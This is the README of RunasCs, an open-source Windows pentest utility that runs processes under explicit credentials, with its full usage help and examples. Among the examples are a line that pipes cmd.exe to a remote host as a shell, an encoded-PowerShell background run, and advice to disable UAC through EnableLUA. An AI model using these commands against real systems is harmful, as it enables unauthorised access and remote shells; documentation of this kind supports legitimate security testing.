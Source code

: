 ### RunasCs

----

RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved (from a pentest perspective) and open version of windows builtin runas.exe that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly DACL for Window Stations and Desktop for the creation of the new process
* Uses more reliable create process functions like CreateProcessAsUser() and CreateProcessWithTokenW() if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, i.e. network logon 3 (no UAC limitations)
* Allows redirecting stdin, stdout and stderr to a remote host
* It's Open Source :)

RunasCs has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

* CreateProcessAsUser()
* CreateProcessWithTokenW()
* CreateProcessWithLogonW()


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
C:\ProgramData>.\RunasCs_net2.exe --help

RunasCs v1.2 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t timeout]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function int
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatucally according to your privileges.
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: "3"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this options sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) to use in
                            the WaitForSingleObject() function.
                            This will halt the process until the spawned
                            process ends and sent the output back to the caller.
                            If you set 0 an async process will be
                            created and no output will be retrieved.
                            If this parameter is set to 0 it won't be
                            used cmd.exe to spawn the process.
                            Default: "120000"

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe "user1" "password1" "%COMSPEC% powershell -enc..." -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe "user1" "password1" "cmd.exe" -r 10.10.10.24:4444
```

The two processes (calling and called) will communicate through 1 pipe (both for stdout and stderr).
The default logon type is 3 (Network_Logon). If you set Interactive (2) logon type you will face some UAC restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

By default, the calling process (RunasCs) will wait until the end of the execution of the spawned process and will use
cmd.exe to manage stdout and stderr. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter 'timeout' to 0. In this case the process will be spawned without using cmd.exe and RunasCs
won't wait for the end of the execution.

### References

----

* https://decoder.cloud/2018/01/13/potato-and-tokens/
* https://github.com/dahall/Vanara
* https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85)
* https://support.microsoft.com/en-us/help/190351/how-to-spawn-console-processes-with-redirected-standard-handles
* https://support.microsoft.com/en-us/help/327618/security-services-and-the-interactive-desktop-in-windows
* https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/


### Credits

-----

[@decoder](https://github.com/decoder-it)
[@qtc-de](https://github.com/qtc-de)
